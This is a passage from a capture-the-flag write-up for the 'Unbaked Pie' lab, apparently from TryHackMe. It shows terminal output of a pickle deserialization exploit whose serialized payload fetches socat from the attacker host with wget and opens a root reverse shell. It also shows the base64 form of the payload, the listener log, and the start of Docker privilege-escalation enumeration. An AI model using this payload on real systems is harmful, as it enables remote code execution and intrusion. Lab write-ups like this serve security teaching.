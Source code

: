 ```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Unbaked-Pie)-[2023.01.13|08:40:46]
└> python unpickle.py
[*] Before serialized: <__main__.Exploit object at 0x7f420bbcc220>
[*] Serialized: b"\x80\x04\x95\xa7\x00\x00\x00\x00\x00\x00\x00\x8c\x05posix\x94\x8c\x06system\x94\x93\x94\x8c\x8cwget http://10.9.0.253/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.9.0.253:443 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane \x94\x85\x94R\x94."
[*] Base64 encoded: b'gASVpwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjIx3Z2V0IGh0dHA6Ly8xMC45LjAuMjUzL3NvY2F0IC1PIC90bXAvc29jYXQ7Y2htb2QgK3ggL3RtcC9zb2NhdDsvdG1wL3NvY2F0IFRDUDoxMC45LjAuMjUzOjQ0MyBFWEVDOicvYmluL2Jhc2gnLHB0eSxzdGRlcnIsc2V0c2lkLHNpZ2ludCxzYW5lIJSFlFKULg=='
[*] Sending a GET request to /search, so we can trigger the payload...

```

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Unbaked-Pie)-[2023.01.13|08:38:11]
└> socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:443
2023/01/13 08:38:12 socat[70824] N opening character device "/dev/pts/1" for reading and writing
2023/01/13 08:38:12 socat[70824] N listening on AF=2 0.0.0.0:443
                                                                2023/01/13 08:41:04 socat[70824] N accepting connection from AF=2 10.10.49.15:59318 on AF=2 10.9.0.253:443
                                                               2023/01/13 08:41:04 socat[70824] N starting data transfer loop with FDs [5,5] and [7,7]
                                           root@8b39a559b296:/home# 
root@8b39a559b296:/home# export TERM=xterm-256color
root@8b39a559b296:/home# stty rows 22 columns 107
root@8b39a559b296:/home# whoami;hostname;id;ip a
root
8b39a559b296
uid=0(root) gid=0(root) groups=0(root)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
4: eth0@if5: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:11:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.17.0.2/16 brd 172.17.255.255 scope global eth0
       valid_lft forever preferred_lft forever
root@8b39a559b296:/home# ^C
root@8b39a559b296:/home# 
```

I'm root **inside a docker container**!

## Privilege Escalation

### Docker root to host ramsey

Let's do some basic enumerations!

**Found `.dockerenv` file in `/`:**
```
root@8b39a559b296:/home# ls -lah /
total 76K
drwxr-xr-x   1 root root 4.0K Oct  3  2020 .
drwxr-xr-x   1 root root 4.0K Oct  3  2020 ..
-rwxr-xr-x   1 root root    0 Oct  3  2020 .dockerenv
[...]
```
